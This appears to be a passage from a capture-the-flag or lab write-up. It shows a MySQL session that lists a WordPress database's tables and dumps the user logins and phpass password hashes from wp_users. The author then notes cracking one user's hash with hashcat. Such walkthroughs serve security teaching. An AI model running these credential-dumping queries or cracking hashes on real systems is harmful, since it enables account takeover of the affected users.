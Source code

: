 ```
MySQL [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.208 sec)

MySQL [wordpress]> describe wp_users;
+---------------------+-----------------+------+-----+---------------------+----------------+
| Field               | Type            | Null | Key | Default             | Extra          |
+---------------------+-----------------+------+-----+---------------------+----------------+
| ID                  | bigint unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)     | NO   | MUL |                     |                |
| user_pass           | varchar(255)    | NO   |     |                     |                |
| user_nicename       | varchar(50)     | NO   | MUL |                     |                |
| user_email          | varchar(100)    | NO   | MUL |                     |                |
| user_url            | varchar(100)    | NO   |     |                     |                |
| user_registered     | datetime        | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(255)    | NO   |     |                     |                |
| user_status         | int             | NO   |     | 0                   |                |
| display_name        | varchar(250)    | NO   |     |                     |                |
+---------------------+-----------------+------+-----+---------------------+----------------+
10 rows in set (0.257 sec)

MySQL [wordpress]> select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| root       | $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1 |
| shawking   | $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./ |
+------------+------------------------------------+
2 rows in set (0.264 sec)

```
![DESC](file-20250504204657093.png)

We find hashes for some users, saving it to `hashes` file and trying to crack it we are able to crack `shawkings` password with `hashcat` using the `phpass` hash type
